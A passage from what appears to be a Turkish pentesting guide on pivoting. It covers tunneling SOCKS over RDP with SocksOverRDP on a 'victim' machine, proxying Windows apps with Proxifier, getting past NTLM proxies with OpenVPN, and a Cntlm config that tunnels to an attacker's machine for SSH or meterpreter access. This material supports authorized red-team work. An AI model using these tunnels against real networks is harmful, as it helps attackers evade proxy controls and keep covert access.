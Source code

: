 **Sisteme RDP erişiminiz olmalıdır**.\
İndirin:

1. [SocksOverRDP x64 Binaries](https://github.com/nccgroup/SocksOverRDP/releases) - Bu araç, Windows'un Uzak Masaüstü Servisi özelliğinden `Dynamic Virtual Channels` (`DVC`) kullanır. DVC, **RDP bağlantısı üzerinden paketleri tünellemekten** sorumludur.
2. [Proxifier Portable Binary](https://www.proxifier.com/download/#win-tab)

İstemci bilgisayarınızda **`SocksOverRDP-Plugin.dll`** dosyasını şu şekilde yükleyin:
```bash
# Load SocksOverRDP.dll using regsvr32.exe
C:\SocksOverRDP-x64> regsvr32.exe SocksOverRDP-Plugin.dll
```
Artık **`mstsc.exe`** kullanarak **RDP** üzerinden **kurban** ile **bağlanabiliriz** ve **SocksOverRDP eklentisinin etkin olduğu** ve **127.0.0.1:1080** adresinde **dinleyeceği** ile ilgili bir **istek** alacağız.

**RDP** üzerinden **bağlanın** ve kurban makinesine `SocksOverRDP-Server.exe` ikilisini yükleyip çalıştırın:
```
C:\SocksOverRDP-x64> SocksOverRDP-Server.exe
```
Şimdi, makinenizde (saldırgan) 1080 numaralı portun dinlediğini doğrulayın:
```
netstat -antb | findstr 1080
```
Şimdi [**Proxifier**](https://www.proxifier.com/) **trafikleri o port üzerinden proxylemek için kullanabilirsiniz.**

## Windows GUI Uygulamalarını Proxify Etme

Windows GUI uygulamalarının bir proxy üzerinden gezinmesini sağlamak için [**Proxifier**](https://www.proxifier.com/) kullanabilirsiniz.\
**Profile -> Proxy Servers** kısmına SOCKS sunucusunun IP'sini ve portunu ekleyin.\
**Profile -> Proxification Rules** kısmına proxify etmek istediğiniz programın adını ve proxify etmek istediğiniz IP'lere olan bağlantıları ekleyin.

## NTLM proxy atlatma

Daha önce bahsedilen araç: **Rpivot**\
**OpenVPN** de bunu atlatabilir, yapılandırma dosyasında bu seçenekleri ayarlayarak:
```bash
http-proxy <proxy_ip> 8080 <file_with_creds> ntlm
```
### Cntlm

[http://cntlm.sourceforge.net/](http://cntlm.sourceforge.net/)

Bir proxy'ye karşı kimlik doğrulaması yapar ve belirttiğiniz dış hizmete yönlendirilmiş olarak yerel bir port bağlar. Ardından, bu port üzerinden tercih ettiğiniz aracı kullanabilirsiniz.\
Örneğin, 443 portunu yönlendirin.
```
Username Alice
Password P@ssw0rd
Domain CONTOSO.COM
Proxy 10.0.0.10:8080
Tunnel 2222:<attackers_machine>:443
```
Şimdi, eğer kurban üzerinde **SSH** hizmetini 443 numaralı portta dinleyecek şekilde ayarlarsanız, buna saldırganın 2222 numaralı portu üzerinden bağlanabilirsiniz.\
Ayrıca, localhost:443'e bağlanan bir **meterpreter** kullanabilir ve saldırgan 2222 numaralı portta dinliyor olabilir.
